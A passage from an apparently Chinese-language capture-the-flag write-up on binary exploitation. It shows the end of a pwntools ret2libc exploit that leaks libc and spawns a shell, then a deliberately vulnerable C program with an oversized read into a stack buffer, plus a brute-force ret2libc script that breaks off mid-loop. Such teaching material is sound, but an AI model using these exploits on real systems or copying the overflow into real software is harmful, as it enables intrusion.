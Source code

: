 ```python
p_read = u32(cn.recv(4))

p_system = p_read - libc.symbols['read'] + libc.symbols['system']

pay = p32(bin.plt['read']) + p32(p3ret) + p32(0) + p32(bin.bss()) + p32(0x10)
pay += p32(p_system) + 'bbbb' + p32(bin.bss())
#write '/bin/sh' to bss ,call system get shell
cn.sendline(stuff + pay)
cn.recv()
cn.sendline('/bin/sh\0')
cn.interactive()
```

## pwn2

代码：

```cpp
//gcc pwn2.c -m32 -Wl,-z,relro,-z,now -pie -o pwn2_2

#include <unistd.h>

void fun(){
    char buffer[0x20];
    read(0,buffer,0x100);
    write(1,buffer,0x100);
}

int main(){
    fun();
    return 0;
}
```

编译参数：
```
gcc pwn2.c -m32 -Wl,-z,relro,-z,now -pie -o pwn2_2
```

checksec:
```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

代码和pwn1一样，但除了canary没开，其他保护都开了。

如果考虑爆破的话，这题的poc是这样的，但毫无智商可言。

```python
from pwn import *
#context.log_level = 'debug'
# baoli
libc = ELF('/lib32/libc.so.6')
p_system = 0xf75ab000 + libc.symbols['system']
p_binsh = 0xf75ab000 + libc.search('/bin/sh').next()
#system和/bin/sh的相对地址是不变的，基址是改变的（libc开了pie），考虑到总有一时刻的基址会和我们设置的基址一样（只随机中间的两字节，在x86上），在那一时刻，我们的脚本能拿shell，所以不断跑脚本就可以了。
while 1:
	cn = process('./pwn2_2')
	pay = 'a'*0x28 + 'bbbb' + p32(p_system) +'bbbb' + p32(p_binsh)
	cn.send(pay)
	cn.recv()
	try:
```